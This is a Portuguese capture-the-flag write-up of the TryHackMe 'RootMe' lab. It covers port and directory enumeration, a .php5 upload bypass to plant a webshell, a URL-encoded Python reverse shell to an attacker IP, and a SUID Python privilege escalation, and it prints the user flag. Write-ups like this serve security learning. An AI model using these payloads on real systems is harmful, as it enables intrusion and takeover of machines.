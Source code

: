 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - RootMe - Fácil
date: 2024-01-15 19:01:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, SUID, facil]     # TAG names should always be lowercase
show_image_post: true
---
```

![Alt text](/assets/img/rootmelogo.png){: w="100" h="100" .left}

---
# THM - Root Me - Fácil
---
## **Enumeração**

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s  10.10.246.13 --min-rate 10000 -oA nmapvers -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-13 21:29 -03
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 21:29 (0:00:07 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 21:29 (0:00:00 remaining)
Nmap scan report for 10.10.246.13
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.57 seconds
```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.246.13/uploads              (Status: 200) [Size: 743]
http://10.10.246.13/js                   (Status: 200) [Size: 958]
http://10.10.246.13/css                  (Status: 200) [Size: 1125]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/panel                (Status: 200) [Size: 732]
http://10.10.246.13/server-status        (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
Progress: 249136 / 249140 (100.00%)
===============================================================
Finished
===============================================================
```
{: .nolineno }


## **Acesso**

Encontrado pagina de upload de arquivos

http://10.10.246.13/panel 

![Alt text](/assets/img/rootme1.png)

Bloqueio de envio de arquivos php, bypass renomeando arquivo para .php5

### Upload de webshell

![Alt text](/assets/img/rootme2.png)

Encontrado arquivo website.zip na home do site

```shell
└─$ ls -R Website          
Website:
css  index.php  js  panel  uploads

Website/css:
home.css  panel.css

Website/js:
maquina_de_escrever.js

Website/panel:
index.php

Website/uploads:
'CAPA CANAL NOVO.png'   shell.php5
```
{: .nolineno }

### Reverse Shell 

```text
http://10.10.246.13/uploads/sh.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

### Primeira Flag

```shell
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt 
THM{y0u_g0t_a_sh3ll}
```
{: .nolineno }


## **Escalação de Privilegio**

sudo -l precisa de senha
Busca por arquivos SUID

```shell
find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000
```
{: .nolineno }

Encontrado /usr/bin/python

No [GTFObins]([https://](https://gtfobins.github.io/gtfobins/python/#suid)) como obter root através de SUID no python.  
./usr/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'

Ultima flag encontrada  
![Alt text](/assets/img/rootme4.png){: .left}